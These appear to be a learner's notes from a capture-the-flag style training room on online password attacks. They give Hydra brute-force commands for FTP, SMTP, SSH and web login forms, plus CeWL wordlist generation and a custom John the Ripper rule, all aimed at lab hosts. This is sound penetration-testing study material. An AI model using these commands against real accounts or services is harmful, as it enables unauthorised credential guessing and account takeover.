

Hydra
FTP
hydra -l ftp -P passlist.txt ftp://10.10.x.x
-l ftp we are specifying a single username, use-L for a username wordlist
-P Path specifying the full path of wordlist, you can specify a single password by using -p.
ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.
SMTP
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
SSH
hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
HTTP Login Pages
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
-l admin we are specifying a single username, use-L for a username wordlist
-P Path specifying the full path of wordlist, you can specify a single password by using -p.
10.10.x.x the IP address or the fully qualified domain name (FQDN) of the target.
http-get-form the type of HTTP request, which can be either http-get-form or http-post-form.
Next, we specify the URL, path, and conditions that are split using :
login-get/index.php the path of the login page on the target webserver.
username=^USER^&password=^PASS^ the parameters to brute-force, we inject ^USER^ to brute force usernames and ^PASS^ for passwords from the specified dictionary.
The following section is important to eliminate false positives by specifying the 'failed' condition with F=.
And success conditions, S=. You will have more information about these conditions by analyzing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage 'Invalid password' after a failed login, set F=Invalid Password.
Or for example, during the enumeration, we found that the webserver serves logout.php. After logging into the login page with valid credentials, we could guess that we will have logout.php somewhere on the page. Therefore, we could tell hydra to look for the text logout.php within the HTML for every request.
S=logout.php the success condition to identify the valid credentials
-f to stop the brute-forcing attacks after finding a valid username and password
Other Tools
Finally, it is worth it to check other online password attacks tools to expand your knowledge, such as:
Medusa
Ncrack
Room Task Commands
Task - 8
To get initial wordlist:
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/
Then, we need to add the format using john rules [symbol][dictionary word][0-9][0-9].
John Rule:
[List.Rules:THM-Room]
Az"[0-9][0-9]" ^[!#$%&*@]
Then we use john to create the updated wordlist.
john --wordlist=clinic.lst --rules=THM-Room --stdout > clinic_rules.lst
Then, we use hydra to crack the password.
hydra -l pittman@clinic.thmredteam.com -P clinic_rules.lst smtp://10.10.54.214 -v
Webpage Bruteforce:
hydra -l phillips -P clinic.lst 10.10.54.214 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -vv -t 64
Note: The F method with Login failed! didn't work due to the exclamation mark
As per Hint: john --wordlist=clinic.lst --rules=Single-Extra --stdout > clinic_rules3.lst
Then, we use it with hydra
hydra -l burgess -P clinic_rules3.lst 10.10.54.214 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -t 64 -v
